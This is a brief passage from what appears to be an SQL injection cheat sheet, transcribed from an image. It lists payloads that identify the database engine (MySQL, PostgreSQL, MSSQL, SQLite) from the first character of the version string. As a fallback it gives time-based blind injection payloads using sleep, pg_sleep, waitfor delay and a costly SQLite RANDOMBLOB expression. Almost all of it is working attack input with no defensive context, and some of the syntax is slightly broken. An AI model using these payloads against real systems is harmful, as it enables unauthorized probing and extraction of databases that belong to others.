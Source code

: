 ```sql
mid(@@version, 1, 1)='5';
substr(version(), 1, 1)='P';
select 1 from {TABLE} where substring(@@version, 1, 1)='M'; #mssql
```
#### ___Exception___ : if not any showing, use time based sqli
```sql
sleep(10)
pg_sleep(10)
mssql> select '' if(substring(@@version, 1, 1)='M') waitfor delay '0:0:5'; # mssql : waitfor delay | find first letter 'M'
sqlite> select case when substr(sqlite_version(), 1, 1)='3' then LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(300000000/2)))) else 1=1 end; #find first letter '3'
```
